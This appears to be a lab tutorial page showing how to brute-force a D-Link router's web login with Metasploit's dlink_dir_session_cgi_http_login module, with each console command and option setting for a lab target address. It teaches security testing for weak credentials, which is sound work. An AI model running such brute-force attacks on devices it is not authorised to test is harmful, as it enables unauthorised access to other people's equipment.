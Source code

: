 +++
title = "Brute Force Login"
date = 2021-10-18T20:39:54-06:00
weight = 2
+++


We can see if the login has been configured with weak credentials by using a brute force attack with a password list. There are several tools to do this. We will use a Metasploit.

## Metasploit

Metasploit is an exploitation framework that will allow us to select a target and run different modules. We will use a module created to automate login attempts against some dlink routers.

In a terminal, open up Metasploit. This will take a few seconds to boot up.

```bash
msf
```
You will eventually get a console session.

![images/msfconsole.png](/static/msfconsole.png)

Search for a `dlink` module thats an `auxiliary` type.
```
search dlink type:auxiliary
```
We get several results back.

![images/msf_search_dlink_results.png](/static/msf_search_dlink_results.png)

We will be using the `dlink_dir_session_cgi_http_login` module.

```
use scanner/http/dlink_dir_session_cgi_http_login
```
Each module has several fields that need to be set to run it. You can these fields by running `show options`.
```
show options
```
![images/dir815-show-options.png](/static/dir815-show-options.png)

Set the remote target IP.
```
set RHOSTS 172.21.0.23
```
Set the remote port
```
set RPORT 8080
```
Change the username to `Admin`.
```
set USERNAME Admin
```
Lastly, tell the module to stop once it finds a password
```
set STOP_ON_SUCCESS true
```

Now if we run `show options` again, we should see our fields updated.
```
show options
```
![images/dir815-options-set.png](/static/dir815-options-set.png)

Run the module
``
run
``

![images/dir815-run.png](/static/dir815-run.png)

The module should continue to try passwords until it finds the correct one.

